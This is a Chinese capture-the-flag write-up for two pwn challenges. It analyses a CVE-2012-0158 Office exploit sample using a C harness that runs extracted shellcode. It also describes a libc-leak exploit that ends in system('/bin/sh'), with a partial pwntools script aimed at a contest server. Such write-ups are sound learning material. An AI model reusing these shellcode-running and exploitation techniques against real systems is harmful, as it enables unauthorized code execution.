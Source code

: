# PWN100

下载下来 Symantec 报毒，刚开始不知什么原因一直分析不了，后来突然想到算了一下样本的 md5，发现和题目给的不一样，才知道是被 Symantec 给日了一半。

丢到 VirusTotal 上报是 CVE-2012-0158，看了非常多的分析资料。

首先用 OfficeMalScanner （ 或者自己手动抠然后 decode('hex') ）拿到 shellcode 段。分析了半天无果，甚是生气。直接将 shellcode 覆盖到随意一个程序中并让 eip 跳进去也会报错退出。注意到 `\x90\x90\x90\x90` 前的 `jmp esp` 的地址 `0x27583c30` 很奇怪，用 Google 搜了一下发现了端倪 [MS12-027 MSCOMCTL ActiveX Buffer Overflow](http://www.i0day.com/128.html)

原来这是一个 Metasploit 生成的脚本，那么就是用了 Metasploit payload 的 encoder。试图分析这个 encoder 但难度过大，吃完夜宵回来灵机一动（其实是之前太蠢），采用了执行 shellcode 的正确姿势，写了这样一个程序。

```cpp
#include <stdio.h>

int main() {
	char shellcode[] = "此处省略 1W 个字符;

	printf("Hello\n");
	(*(void(*)())shellcode)();
}
```

断点调试后发现程序执行了 `echo xdctf{此处省略若干字符} > C:\xxx\xxx`

# PWN200

主题：出题人真变态

程序忘了啥漏洞，应该是很简单的，反正效果应该是一个 leak + Arbitrary Write，总之就是先获取某 got 表中函数真实地址，再通过 libc 计算偏移，最后执行 `system('/bin/sh')`

然而变态的出题人强行搞了个独一无二的 libc （害我还先去 pwn300 上把 libc 给拖下来了），也就是说不知如何计算 `system()` 和 `/bin/sh` 的偏移。

不过程序中有 leak，而且 leak 是自己规定打印的字符数量的，于是就猜猜猜。先确定大致 libc 段的地址（根据 got 表中的函数地址），然后根据 `\x7FELF` 找到 libc 段的开头，再把它全部打印回来保存起来。比较坑的是加载在内存中的 libc 段并不能完整地保存成一个 ELF 文件，因此无法用 pwntools 的 `ELF()` 进行分析，于是再次猜猜猜，根据汇编代码猜到了两处疑似 `system()` 函数的位置（`/bin/sh` 就不用猜了，直接就能定位到），然后试了下就成功了。

```python
__author__ = "cMc_SARS"

from pwn import *

# p = process('pwn200')
p = remote('133.130.111.139', 2333)
context(terminal='tmux')

libc = ELF('libc.xd')
#libc = ELF('remote_libc')
libc_read = libc.symbols['read']
libc_system = libc.symbols['system']
libc_open = libc.symbols['open']
libc_execve = libc.symbols['execve']
libc_write = libc.symbols['write']
libc_sh = libc.search('/bin/sh').next()

read_got = 0x0804a004
write_got = 0x0804a010
main_got = 0x0804a00c

p.recv()

payload = "A"*0x6c
payload += "BBBB"
payload += p32(0x0804855A)
```